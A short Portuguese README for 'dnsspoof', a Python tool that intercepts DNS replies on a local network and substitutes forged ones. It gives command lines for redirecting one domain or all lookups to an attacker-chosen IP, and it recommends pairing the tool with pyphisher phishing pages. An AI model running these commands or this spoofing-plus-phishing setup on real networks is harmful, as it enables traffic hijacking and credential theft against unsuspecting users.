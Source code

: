 dnsspoof
========

Falsificador de DNS. Descarta as respostas DNS antes que elas cheguem ao roteador e as substitui pela resposta DNS falsificada.

Usage
------

```shell
python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -d domaintospoof.com
```

Falsificar domaintospoof.com para apontar de volta para a máquina do ataque.


```shell
python dnsspoof.py -r 192.168.0.1 -v 192.168.0.5 -a -t 80.87.128.67
```

Falsifique todas as solicitações de pesquisa de DNS para apontar para 80.87.128.67 (stallman.org). Também é possível usar a opção -t com a opção -d para redirecionar apenas um domínio específico para um IP específico, em vez de redirecionar aquele

-------

Recomendo o uso do pyphisher para criar páginas de phishing e o usar no DNS Spoofing
-------
danmcinerney.org
modificado por Wrench
